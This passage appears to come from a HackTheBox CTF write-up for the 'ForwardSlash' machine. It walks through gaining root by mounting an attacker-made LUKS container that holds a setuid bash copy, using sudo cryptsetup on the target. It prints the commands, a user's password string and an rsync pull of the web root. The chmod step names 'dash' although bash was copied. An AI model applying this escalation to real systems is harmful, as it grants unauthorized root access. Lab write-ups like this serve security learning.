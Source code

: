Create a ext4 filesystem for it

```sh
mkfs.ext4 /dev/mapper/myluksvol1
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-22-HackTheBox-ForwardSlash/2021-10-22-HackTheBox-ForwardSlash%2008:56:37.png)

Mount, copy a suid bash to it

```sh
mount /dev/mapper/myluksvol1 /mnt
cp /bin/bash /mnt
chmod u+s /mnt/dash
ls -l /mnt
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-22-HackTheBox-ForwardSlash/2021-10-22-HackTheBox-ForwardSlash%2008:57:10.png)

Just copy the container to the server

```sh
scp luksvolume1 pain@10.10.10.183:/tmp
Password: db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-22-HackTheBox-ForwardSlash/2021-10-22-HackTheBox-ForwardSlash%2008:59:47.png)

Now, just mount it

```sh
mkdir mnt
sudo /sbin/cryptsetup luksOpen luksvolume1 backup
sudo /bin/mount /dev/mapper/backup ./mnt/
mnt/dash -p
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-22-HackTheBox-ForwardSlash/2021-10-22-HackTheBox-ForwardSlash%2006:09:31.png)

# Source Code Analysis

Let's make our source code analysis

```sh
rsync -azP root@10.10.10.183:/var/www/* .
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-22-HackTheBox-ForwardSlash/2021-10-22-HackTheBox-ForwardSlash%2006:12:34.png)

In the `profilepictures.php`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-22-HackTheBox-ForwardSlash/2021-10-22-HackTheBox-ForwardSlash%2007:29:04.png)

First it test if the url data is setted, if it is setted then redirect to api.php, which I'll explain now.

